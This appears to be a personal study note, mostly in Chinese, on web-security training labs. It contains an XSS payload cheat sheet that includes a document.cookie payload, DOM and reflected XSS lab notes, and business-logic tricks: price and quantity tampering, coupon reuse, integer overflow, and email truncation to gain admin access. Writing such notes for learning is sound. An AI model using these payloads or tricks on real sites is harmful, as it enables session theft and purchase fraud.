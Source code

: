 ## XSS

*   cheat sheet

    ```html
    <script>alert(1)</script>
    "><script>alert(1)</script>  "><svg onload=alert(1)>
    <img src=1 onerror=alert(1)>
    javascript:alert(document.cookie)
    <iframe src="<website>/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    "onmouseover="alert(1)
    apache';alert(1);'
    {{$on.constructor('alert(1)')()}}
    ```

1.    反射 xss

2.    存储 xss

3.    dom型xss，先闭合标签

4.   dom xss，但是<> 会被转义 ,但是直接输入一整个标签则不会

5.   dom xss returnPath存在注入 `returnPath=javascript:alert(document.cookie)`

6.   dom xss,使用iframe标签嵌入xss

7.   dom xss,闭合 “插入事件

8.   反射,输入会插入js代码中,直接闭合就可以

9.   反射

     >   1.  On the product pages, notice that the dangerous JavaScript extracts a `storeId` parameter from the `location.search` source. It then uses `document.write` to create a new option in the select element for the stock checker functionality.

     我怎么就notice不到...

     ![image-20230415013403077](https://gitee.com/leiye87/typora_picture/raw/master/20230415013405.png)payload:

     ```
     "></select><img%20src=1%20onerror=alert(1)>
     ```

     ​	

10.   DOM XSS in Angular,可以看到网站用的是 `Angular`,这里提到了一个 `cilent-side-template-injection`




## 逻辑漏洞
### 1
需要购买一个价格为1337的商品
流程:
添加购物车 post 商品参数+商品价格(可修改)
购买      /cart/checkout

### 2

没有了价格参数,剩下三个参数
```bash
productId=1&redir=PRODUCT&quantity=1
```

要求商品总价格为正,修改数量为1,其他商品数量为负数
### 3
登录后切换邮箱不需要验证,修改为内网邮箱,即可删除用户
### 4
新增了优惠券代码
post 优惠券代码->无法修改价格

有俩张,交替使用绕过<已使用限制>

### 5
整数溢出

### 6
```bash
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@exploit-0a38003f04cdeef88178b63d010d0098.exploit-server.net

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@exploit-0a38003f04cdeef88178b63d010d0098.expl
```

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.comattacker@exploit-0a38003f04cdeef88178b63d010d0098.exploit-server.net